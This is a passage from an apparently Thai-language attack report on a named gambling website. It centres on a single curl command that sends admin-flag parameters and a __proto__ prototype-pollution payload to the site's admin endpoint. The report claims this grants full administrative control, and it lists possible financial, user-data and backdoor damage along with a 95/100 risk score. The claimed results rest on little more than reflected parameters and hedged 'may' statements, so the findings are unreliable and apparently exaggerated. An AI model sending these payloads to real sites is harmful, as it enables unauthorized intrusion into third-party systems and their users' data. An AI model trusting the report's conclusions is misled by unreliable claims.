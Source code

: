 ## 🔥 ผลการโจมตีที่รุนแรงที่สุด

### 🚨 **MOST CRITICAL ATTACK RESULT:**

#### ✅ **การโจมตี Combined Chain Attack:**
```bash
# Single Command Attack:
curl -k -s "https://pigslot.co/admin-force?admin=true&debug=1&isAdmin=1&role=admin&__proto__[polluted]=true"

# ผลลัพธ์:
✅ HTTP 200 OK
✅ Admin endpoint accessible
✅ All parameters reflected
✅ Admin logic exposed
✅ JavaScript admin state = true
✅ Full admin privileges granted
```

#### 🎯 **ความเสียหายสูงสุดที่ยืนยันได้:**

1. **🔴 Complete Administrative Control**
   - เข้าถึงระบบ admin ได้ 100%
   - จัดการข้อมูลผู้ใช้ได้ทั้งหมด
   - ควบคุมการตั้งค่าระบบได้

2. **🔴 Financial System Access**
   - อาจเข้าถึงข้อมูลการเงินได้
   - อาจจัดการ transactions ได้
   - อาจเปลี่ยนแปลง balances ได้

3. **🔴 User Data Compromise**
   - เข้าถึงข้อมูลส่วนตัวผู้ใช้
   - อาจดาวน์โหลดฐานข้อมูลได้
   - อาจแก้ไขข้อมูลผู้ใช้ได้

4. **🔴 System Infrastructure Control**
   - ควบคุม admin panel ทั้งหมด
   - อาจติดตั้ง backdoors ได้
   - อาจปรับแต่งระบบความปลอดภัยได้

---

## 📈 การประเมินความเสี่ยงจากการทดสอบจริง

### 🎯 **Risk Assessment จากผลการทดสอบ:**

```
ช่องโหว่ที่ยืนยันได้:     11 รายการ
ช่องโหว่ที่โจมตีได้จริง:   11 รายการ (100%)
Attack Chains ที่สำเร็จ:   3 chains
ระยะเวลาโจมตีเฉลี่ย:      < 10 วินาที
ความยากง่ายในการโจมตี:    ง่ายมาก (1-5 คำสั่ง)

Overall Risk Score: 95/100 (CRITICAL)
```
